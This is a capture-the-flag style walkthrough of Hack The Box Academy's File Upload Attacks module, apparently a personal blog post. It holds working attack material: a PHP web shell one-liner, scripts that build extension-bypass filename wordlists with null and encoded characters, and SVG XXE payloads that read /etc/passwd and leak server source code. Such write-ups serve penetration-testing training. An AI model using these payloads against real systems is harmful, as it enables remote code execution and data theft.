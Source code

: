 ```yaml
---
layout: post
title:  "Hack The Box - Academy - File Upload Attacks"
description: "Follow this comprehensive walkthrough of the Hack The Box Academy File Upload Attacks Skills Assessment. Master file upload attack techniques to exploit vulnerable web applications using Caido, perfect for enhancing your penetration testing skills and preparing for HTB challenges."
date:   2024-10-23 18:48
image:  /images/htb/file-upload-attacks/logo.png
tags:   [file-upload-attacks,cbbh]
categories: [htbacademy]
---
```


### Explore this detailed walkthrough of Hack The Box Academy's File Upload Attacks module. Learn effective techniques to exploit file upload vulnerabilities.

>
<b>Links:</b>
<br/>
<a href="https://academy.hackthebox.com/module/136/section/1259">File Upload Attacks</a><br/>
<a href="https://jacozwarts.github.io/images/htb/file-upload-attacks/File_Upload_Attacks_Module_Cheat_Sheet.pdf">File Upload Attacks - Cheat Sheet</a><br/>
<a href="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst">PayloadsAllTheThings - PHP Extensions List</a><br/>
<a href="https://en.wikipedia.org/wiki/List_of_file_signatures">List of file signatures</a><br/>


<hr/>

## Notes:
Filter image content types from Content-Type wordlist:

**Wordlist path:** <br/>
`/usr/share/wordlists/seclists/Miscellaneous/Web/content-type.txt`
```
cat content-type.txt | grep 'image/' > image-content-types.txt
```

## Whitelist Filters - Exercise

### The above exercise employs a blacklist and a whitelist test to block unwanted extensions and only allow image extensions. Try to bypass both to upload a PHP script and execute code to read `"/flag.txt"`

Create a `custom wordlist` by executing the below bash script:
```
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps' '.phar' '.phtml'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done
```

#### Step-by-Step Guide to Automating File Upload Testing with Caido
- Launch Caido and navigate to the Automation section.

- Initiate an Upload Request: 
Create an upload request and set the filename as the automation payload.

- Use the Wordlist:
Copy the content from the specified wordlist and paste it into the Simple List input field within Caido.

- Start the Automation
Begin the automation process by clicking the start button.

- Review the Results
Once the automation completes, review the results.

- Filter the Results
Sort the results by length in descending order and look for responses with a length of `193`.

- Test the Successful File Extensions
Identify which file extensions were successfully uploaded and test them further for potential vulnerabilities.

`Payload:`

```
<?php system($_REQUEST['cmd']); ?>
```

![Caido White list Request](/images/htb/file-upload-attacks/white-list-filter-caido-request.png)

![Caido White list Result](/images/htb/file-upload-attacks/white-list-filter-caido-result.png)

![Webshell](/images/htb/file-upload-attacks/white-list-filter-web-shell.png)

Navigate through the folders to locate the `flag.txt` file.

![Webshell](/images/htb/file-upload-attacks/white-list-filter-flag-result.png)
<hr/>

## Type Filters - Exercise

### The above server employs Client-Side, Blacklist, Whitelist, Content-Type, and MIME-Type filters to ensure the uploaded file is an image. Try to combine all of the attacks you learned so far to bypass these filters and upload a PHP file and read the flag at `"/flag.txt"`

Use a png file and add the .phtml extension in the filename add the web shell below the MIME type and execute the upload functionality.
![Type filters - Request](/images/htb/file-upload-attacks/type-filters-request.png)
![Type filters - Result](/images/htb/file-upload-attacks/type-filters-result.png)

<hr/>

## Skills Assessment
><b>Overview:</b>
You are contracted to perform a penetration test for a company's e-commerce web application. The web application is in its early stages, so you will only be testing any file upload forms you can find.<br/><br/>
Try to utilize what you learned in this module to understand how the upload form works and how to bypass various validations in place (if any) to gain remote code execution on the back-end server.

### Extra Exercise
Try to note down the main security issues found with the web application and the necessary security measures to mitigate these issues and prevent further exploitation.


### Try to exploit the upload form to read the flag found at the root directory "/".
During our analysis of the web application, we identified a file upload feature located on the 'Contact Us' page.

#### 1. Identify File Storage: 
When uploading an image, the application does not reveal where the uploaded file is stored.

#### 2. Access Source Code: 
To understand the file storage mechanism, obtain the source code of the upload.php file.

#### 3. Monitor POST Method: 
Observe that when an image is uploaded, the POST method returns the image result.

#### 4. Test for Vulnerability: 
Use an SVG file to test if the application is vulnerable to `XML External Entity (XXE)` attacks. I used the payload below to check if we can read the contents of the `/etc/passwd` file.

```
Content-Disposition: form-data; name="uploadFile"; filename="SVG-XXE-Injection.svg"
Content-Type: image/svg+xml

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```

![Skills Asssessment XXE - Result](/images/htb/file-upload-attacks/skills-assessment-xxe-test.png)

#### 5. Extract Upload.php source code:
```
Content-Disposition: form-data; name="uploadFile"; filename="SVG-XXE-Injection.svg"
Content-Type: image/svg+xml

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]>
<svg>&xxe;</svg>
```

![Skills Asssessment XXE - Upload.php Source Code](/images/htb/file-upload-attacks/skills-assessment-upload-source-code.png)

Use Caido to base64 decode the payload and analyze the `upload.php` source code.

![Decode payload with Caido](/images/htb/file-upload-attacks/skills-assessment-decode-caido.png)

`Uploade.php source code decrypted:`

![Upload.php source code decrypted](/images/htb/file-upload-attacks/skills-assessment-upload-source-code-decrypted.png)

After analyzing the source code, you'll be able to identify the upload directory and the format of the saved file. One issue I encountered was related to time zones; I was in the AEST timezone with a different date to the server. Additionally, you can view the code to bypass the image filters. Now, upload a new image containing a web shell.

Leverage the custom wordlist below to generate potential extensions that are not blacklisted. Begin by sending an upload request to Caido Automate, mark the `filename` as the `placeholder` and load the wordlist using the Simple List option. In the request body, insert the PHP web shell after the `MIME type`, then click "Run" to initiate the automation. Finally, review the results to identify the allowed extensions.

Create a `custom wordlist` by executing the below bash script:

```
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps' '.phar' '.phtml'; do
        echo "Zwarts$char$ext.png" >> wordlist.txt
        echo "Zwarts$ext$char.png" >> wordlist.txt
        echo "Zwarts.png$char$ext" >> wordlist.txt
        echo "Zwarts.png$ext$char" >> wordlist.txt
    done
done
```

```
<?php system($_REQUEST['cmd']); ?>
```
![Caido Automate Request](/images/htb/file-upload-attacks/skills-assessment-caido-automate.png)

`Look for results that has a content length > 190`

![Caido Automate Results](/images/htb/file-upload-attacks/skills-assessment-caido-automate-results.png)

![Flag Result](/images/htb/file-upload-attacks/skills-assessment-flag-result.png)

<hr/>